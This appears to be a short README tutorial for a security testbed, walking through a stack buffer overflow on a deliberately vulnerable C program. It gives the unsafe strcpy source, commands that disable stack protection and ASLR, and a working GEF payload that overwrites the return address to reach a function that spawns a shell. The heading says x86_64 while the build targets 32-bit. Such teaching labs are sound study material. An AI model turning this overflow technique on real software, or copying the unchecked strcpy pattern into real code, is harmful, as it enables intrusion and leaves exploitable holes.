 
# Testbed
## Buffer Overflow on X86_64
In the following code the `not_called()` function can be called because the `strcpy()` function can be overflowed:

```
void not_called() {
    printf("Enjoy your shell!\n");
    system("/bin/bash");
}

void vulnerable_function(char* string) {
    char buffer[100];
    strcpy(buffer, string);
}

int main(int argc, char** argv) {
    vulnerable_function(argv[1]);
    return 0;
}
```

The program will be compiled for 32 bit architecture without stack protection with `gcc -m32 -fno-stack-protector bof.c` and the ASLR protection will be removed with the command `echo 0 | sudo tee /proc/sys/kernel/randomize_va_space`.
Using [GEF](https://github.com/hugsy/gef) the program addressed can be read and the function locations can be printed:

`disas main`
`print not_called`

Inside GEF the exploit can be run with:

`run "$(python -c 'print("A"*107 + "AAAA" + "\xad\x61\x55\x56")')"` 

that fills the buffer and overwrite the return address with the address of `not_called` that executes a shell. An example of this exploit is the image below.
